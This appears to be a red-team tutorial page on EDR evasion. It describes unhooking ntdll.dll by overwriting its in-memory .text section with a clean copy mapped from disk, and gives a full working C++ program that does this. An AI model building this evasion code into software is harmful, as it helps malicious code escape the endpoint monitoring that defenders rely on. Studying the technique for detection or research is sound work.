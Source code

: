 ```yaml
---
description: EDR evasion
---
```


# Full DLL Unhooking with C++

It's possible to completely unhook any given DLL loaded in memory, by reading the .text section of ntdll.dll from disk and putting it on top of the .text section of the ntdll.dll that is mapped in memory. This may help in evading some EDR solutions that rely on userland API hooking.

## Overview

The process for unhooking a DLL is as follows. Let's assume that the ntdll.dll is hooked and here is how we could unhook it:

1. Map a fresh copy of ntdll.dll from disk to process memory
2. Find virtual address of the .text section of the hooked ntdll.dll
   1. get ntdll.dll base address
   2. module base address + module's .text section VirtualAddress
3. Find virtual address of the .text section of the freshly mapped ntdll.dll
4. Get original memory protections of the hooked module's .text section
5. Copy .text section from the freshly mapped dll to the virtual address \(found in step 3\) of the original \(hooked\) ntdll.dll - this is the meat of the unhooking as all hooked bytes get overwritten with fresh ones from the disk
6. Apply original memory protections to the freshly unhooked .text section of the original ntdll.dll

Below is a simplified graph, illustrating the core concept of the technique, where a hooked .text section of ntdll.dll is replaced with a clean copy of .text section of ntdll.dll from disk:

![](../../.gitbook/assets/image%20%28709%29.png)

## Code

Below code fully unhooks the ntdll.dll, although it could be modified to unhook any other DLL.

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>
#include <psapi.h>

int main()
{
    HANDLE process = GetCurrentProcess();
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");

    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }

    CloseHandle(process);
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);

    return 0;
}
```

{% hint style="warning" %}
Note that the above code does not fix image base relocations. Although ntdll.dll does not have anything to be relocated within its .text section, it may be required when dealing with other dlls.

Thanks [@mrgretzky](https://twitter.com/mrgretzky) for highlighting [this](https://twitter.com/mrgretzky/status/1271348438421159936).

See my notes about PE image relocations: [https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations\#relocation](https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation)
{% endhint %}

